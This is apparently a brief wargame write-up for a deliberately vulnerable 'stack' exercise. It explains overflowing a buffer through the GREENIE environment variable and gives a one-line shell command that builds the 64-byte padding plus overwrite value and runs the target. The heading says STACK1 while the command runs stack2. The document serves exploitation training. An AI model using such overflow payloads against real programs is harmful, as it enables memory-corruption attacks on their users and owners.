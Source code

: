 # STACK1
This stack is pretty the same as 0. We need overwrite "GREENIE" env with value `'A' * 64 + 0x0a0d0a0d`
```
export GREENIE=$(python -c "print 'A' * 64 + '\x0a\x0d\x0a\x0d'")
echo $GREENIE
./stack2
```

run with breakpoints:
![img_4.png](assets/img_4.png)
